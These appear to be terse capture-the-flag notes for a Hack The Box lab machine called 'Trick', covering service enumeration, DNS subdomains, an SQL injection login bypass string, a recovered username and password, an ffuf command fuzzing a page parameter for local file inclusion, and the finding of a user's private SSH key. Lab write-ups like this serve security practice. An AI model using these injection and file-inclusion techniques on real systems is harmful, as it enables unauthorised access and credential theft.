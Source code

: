 Trick

# Enumeration
SSH: OpenSSH 7.9
SMTP: Postfix smtpd
DNS: ISC BIND 9.11.5-P4-5.1+deb10u7
HTTP: nginx 1.14.2

## DNS
http://preprod-payroll.trick.htb/login.php
http://root.trick.htb

## Web
Startbootstrap
Contact form (not activated)

### Preprod payroll
**Bad chars**: '\
    Output: Trying to get property 'num_rows' of non-object in /var/www/payroll/admin_class.php

> Probably MySQL

SQLi: admin'or'1'='1:admin'or'1'='1

Usernames:
Administrator
Enemigosss:SuperGucciRainbowCake
John C Smith

### Proprod marketing
See LFI

# LFI
```bash
$ ffuf -mc all -c -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://preprod-marketing.trick.htb/index.php\?page\=FUZZ -fl 1 | tee logs/gobuster/marketinf/lfi
```
Users: michael

Found private key (/home/michael/.ssh/id_rsa)

$ cat /etc/fail2ban/jail.conf
...
port = 10000
banaction = iptables-multiport
banaction_allports = iptables-allports
...
[sshd]
port = ssh
